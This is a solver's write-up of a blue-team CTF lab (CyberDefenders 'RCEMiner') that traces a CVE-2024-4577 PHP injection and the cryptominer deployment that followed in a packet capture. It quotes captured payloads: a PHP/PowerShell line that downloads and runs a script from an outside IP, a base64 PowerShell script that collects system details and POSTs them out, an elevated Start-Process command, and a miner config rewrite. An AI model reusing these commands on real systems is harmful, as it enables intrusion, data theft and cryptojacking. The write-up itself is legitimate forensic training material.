

# RCEMiner
---
Practice lab [here](https://cyberdefenders.org/blueteam-ctf-challenges/rceminer/)

---
## Lab Description
> Over the past 24 hours, the IT department has noticed a drastic increase in CPU and memory usage on several publicly accessible servers. Initial assessments indicate that the spike may be linked to unauthorized crypto-mining activities. Your team has been provided with a network capture (PCAP) file from the affected servers for analysis.<br>
Analyze the provided PCAP file using the network analysis tools available to you. Your goal is to identify how the attacker gained access and what actions they took on the compromised server.

---
## Analyzing
**Q1: To identify the entry point of the attack and prevent similar breaches in the future, it’s crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?**


From TCP stream 8, you can guess that this is command injection vuln from **index.php** file


Osint this payload, you can receive some CVE related it: 


Reference: [www.akamai.com](https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure)

> **CVE-2024-4577**

*Bonus: **Some Payload look like simmilar with payload in wireshark***



**Q2: A specific Unicode character is used in the exploit to manipulate how the server interpretes command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?**

You can answer this question after overview above researcher's blog, that explain how to exploit...

> **%AD** or **0xAD**

**Q3: The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker's script?**

Here is small payload at head of pcap file


I can identify that Attacker's IP: 58.16.30.23

At packet **no.216** or **tcp.stream 18**, i detect powershell command Set ExecutionPolicy:
```php
<?php system('powershell -ExecutionPolicy Bypass -Command "& {Invoke-WebRequest -Uri http://1.80.23.4:8000/1.ps1 -OutFile C:\Windows\Temp\1.ps1; powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\1.ps1}"'); ?>
```

I think file 1.ps1 will contain a script used to get CPU info after sent it through by other packet

But after next some packet, i saw that attacker call 1.ps1 (look like pathTraversal vuln :>>) file and you can see malicious code of this file:


```powershell
$e = "JG91dHB1dEZpbGUgPSAiQzpcV2luZG93c1xUZW1wXDEudHh0Ig0KJGNwdUluZm8gPSBHZXQtV21pT2JqZWN0IFdpbjMyX1Byb2Nlc3NvciB8IFNlbGVjdC1PYmplY3QgTmFtZSwgTnVtYmVyT2ZDb3JlcywgTWF4Q2xvY2tTcGVlZA0KJHJhbUluZm8gPSBHZXQtV21pT2JqZWN0IFdpbjMyX1BoeXNpY2FsTWVtb3J5IHwgU2VsZWN0LU9iamVjdCBDYXBhY2l0eQ0KJGRpc2tJbmZvID0gR2V0LVdtaU9iamVjdCBXaW4zMl9Mb2dpY2FsRGlzayB8IFNlbGVjdC1PYmplY3QgRGV2aWNlSUQsIFNpemUsIEZyZWVTcGFjZQ0KJGNwdUluZm8gfCBPdXQtRmlsZSAtRmlsZVBhdGggJG91dHB1dEZpbGUgLUFwcGVuZA0KJHJhbUluZm8gfCBPdXQtRmlsZSAtRmlsZVBhdGggJG91dHB1dEZpbGUgLUFwcGVuZA0KJGRpc2tJbmZvIHwgT3V0LUZpbGUgLUZpbGVQYXRoICRvdXRwdXRGaWxlIC1BcHBlbmQNCkludm9rZS1XZWJSZXF1ZXN0IC1VcmkgaHR0cDovLzEuODAuMjMuNDo4MDAwIC1NZXRob2QgUE9TVCAtSW5GaWxlICRvdXRwdXRGaWxlDQpSZW1vdmUtSXRlbSAtUGF0aCBDOlxXaW5kb3dzXFRlbXBcMS50eHQgLUZvcmNlDQpSZW1vdmUtSXRlbSAtUGF0aCBDOlxXaW5kb3dzXFRlbXBcMS5wczEgLUZvcmNl"
$z = [System.Convert]::FromBase64String($e)
$x = [System.Text.Encoding]::UTF8.GetString($z)
Invoke-Expression $x
```

After decode with base64, i received a malicious code get CPU file, so I guessed right

```powershell
$outputFile = "C:\Windows\Temp\1.txt"
$cpuInfo = Get-WmiObject Win32_Processor | Select-Object Name, NumberOfCores, MaxClockSpeed
$ramInfo = Get-WmiObject Win32_PhysicalMemory | Select-Object Capacity
$diskInfo = Get-WmiObject Win32_LogicalDisk | Select-Object DeviceID, Size, FreeSpace
$cpuInfo | Out-File -FilePath $outputFile -Append
$ramInfo | Out-File -FilePath $outputFile -Append
$diskInfo | Out-File -FilePath $outputFile -Append
Invoke-WebRequest -Uri http://1.80.23.4:8000 -Method POST -InFile $outputFile
Remove-Item -Path C:\Windows\Temp\1.txt -Force
Remove-Item -Path C:\Windows\Temp\1.ps1 -Force
```

All information relate about CPU has been save in **C:\Windows\Temp\1.txt** file and sent through IP **1.80.23.4:8000**

In the next stream, you can see that ip appeared


> **Intel(R) Core(TM) i7-6700HQ**

**Q4: Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?**

Simple, you must be command executed malicious file that has been dropped through vuln.

I have IP of attacker is: **58.16.30.23**


> **Start-Process C:\Windows\Temp\2.exe -Verb RunAs**

**Q5: After compromising the server, the malware used it to launch a massive number HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?**

You can see after reponse packet of request dropped malicious file, has alot packet with payload


You can see IP of victim is: **36.96.48.3**. Becuase victim used by Malware to lanch a massive number HTTP request, So I will filter with `ip.src = 36.96.48.3` and begin at packet no.10151


A lot of Payload in Packets. Here is Example of a packet at tcp.stream 293


I found some information about payload used to attack addtional websites. Here is [link](https://red.y1ng.org/0x3_%E5%88%9D%E5%A7%8B%E8%AE%BF%E9%97%AE/T1190-Thinkphp%205.x%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%A3%80%E6%B5%8B/)

> **ThinkPHP**

**Q6: The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?**

Time searching


> **T1071.004**

**Q7: Identifying where the malware could be stored on a compromised system is crucial for ensuring complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?**

From above packet from Q5


> **C:\ProgramData\spread.exe**

**Q8: Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and in blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?**

Search CPU with search bar, you can receive some infor about state of CPU has been sent to a IP (I think it is mean of question)


Destination IP is: 218.244.58.70:9011

> **218.244.58.70:9011**

**Q9: Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?**

[Export data](https://www.youtube.com/watch?v=Fn__yRYW6Wo) from packet to file to easy analysis: `File > Export Object > HTML`, after sort by size


Select 2.txt and save to local and check sum this file, you can get a md5 hash to check: **2cf24966a6aad7b6ecffe04a20eaf3dd**


I have Creation Time is: 2020-06-12 09:36:27 UTC and a rule detect that malicious file used **Xmrig** for mining
Base on above information, let's osint now:

Here is [database](https://github.com/xmrig/xmrig/releases?page=6) (XmRig Miner) before 12/06/2020

After many try but fail, I was investigating packet and found a [sample file](setup_c3pool_miner.bin) (first link) similar attack chain of this lab to analysis. And saw that an output same with packet that i have received:

```powershell
powershell -Command "$out = cat '%USERPROFILE%\c3pool\config.json' | %%{$_ -replace '\"url\": *\".*\",', '\"url\": \"auto.c3pool.org:%PORT%\",'} | Out-String; $out | Out-File -Encoding ASCII '%USERPROFILE%\c3pool\config.json'" 
```


i'm sure about that it is **XMRig**


A long time, i found version at [link](https://www.unpac.me/results/0dacfdd9-d931-4ead-b16f-ca03cc13e44a/) in Unpacked children.

After check hash i can see it is 


List all string in file, you can see version of software in below picture:


Done. This question take a lot of time :))